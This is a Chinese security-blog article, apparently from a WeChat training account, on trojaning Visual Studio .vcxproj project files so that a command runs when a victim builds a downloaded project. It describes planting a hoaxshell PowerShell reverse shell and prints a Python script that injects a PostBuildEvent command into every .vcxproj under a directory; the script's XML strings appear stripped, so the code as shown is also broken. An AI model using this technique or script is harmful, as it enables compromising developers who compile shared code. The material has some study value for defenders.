 #  Visual Studio项目钓鱼

原创 zkaq-camer  [ 掌控安全EDU ](javascript:void\(0\);)

**掌控安全EDU** ![]()

微信号 ZKAQEDU

功能介绍 安全教程\高质量文章\面试经验分享，尽在#掌控安全EDU#

____

___发表于_

收录于合集

获网安教程

免费&进群

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175239.png)
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175240.png)  
本文由掌控安全学院-camer投稿，文章灵感来自 apt-38 钓鱼样本。

# 0x01 漏洞成因

漏洞的形成主要是因为Visual Studio的项目文件（vcxproj）是基于XML格式的，XML文件本身并不包含可执行代码。然而，Visual
Studio的XML解析器允许在项目文件中包含一些自定义的命令，这些命令可以在构建项目时被执行。

# 0x02 漏洞复现

正常情况下使用Visual Studio去编译github上下载的项目

![]()  
通过修改Visual Studio的项目文件（vcxproj)植入恶意命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175241.png)

当项目被下载编译时机会执行命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175242.png)

# 0x03 漏洞利用

可以直接反弹shell，通过hoaxshell直接生成powershell，并开启监听

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175243.png)

将代码插入Visual Studio的项目文件（vcxproj）的XML标签中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175246.png)

直接编译，终端反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175247.png)

漏洞利用脚本：

    
          1. import argparse
    
      2. import os
    
      3. import re
    
      4.   5. # 解析命令行参数
    
      6. parser = argparse.ArgumentParser(description='Insert PostBuildEvent node into .vcxproj files.')
    
      7. parser.add_argument('-d', '--directory', metavar='directory', type=str, default='.', help='the directory to search for .vcxproj files')
    
      8. parser.add_argument('-c', '--command', metavar='command', type=str, default='calc.exe', help='the command to be executed in the PostBuildEvent node')
    
      9. args = parser.parse_args()
    
      10.   11. # 定义正则表达式，用于匹配.vcxproj文件中的标签
    
      12. property_group_pattern = re.compile(r'\s*')
    
      13.   14. # 定义插入的节点内容
    
      15. post_build_event_node = '\n\n  \n    {command}\n  \n\n'.format(command=args.command)
    
      16.   17. # 遍历指定目录下的所有文件和子目录
    
      18. for root, dirs, files in os.walk(args.directory):
    
      19.     # 遍历当前目录下的所有文件
    
      20.     for file in files:
    
      21.         # 如果文件扩展名是.vcxproj，则进行处理
    
      22.         if file.endswith('.vcxproj'):
    
      23.             file_path = os.path.join(root, file)
    
      24.             # 打开文件，读取全部内容
    
      25.             with open(file_path, 'r', encoding='utf-8') as f:
    
      26.                 content = f.read()
    
      27.             # 在标签后插入节点
    
      28.             new_content = property_group_pattern.sub(post_build_event_node + '\\g', content)
    
      29.             # 如果文件内容有变化，则写回文件
    
      30.             if new_content != content:
    
      31.                 with open(file_path, 'w', encoding='utf-8') as f:
    
      32.                     f.write(new_content)
    
    
    

  

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175248.png)  

 **没看够~？欢迎关注！**

  

  

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175239.png)

 ** ** **分享后扫码 加我！**

  

 **回顾往期内容**

[Xray挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)

[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  

[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  

[代码审计 |
这个CNVD证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)

## [    代理池工具撰写 |
只有无尽的跳转，没有封禁的IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175248.png)

点赞+在看支持一下吧~感谢看官老爷~

你的点赞是我更新的动力

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

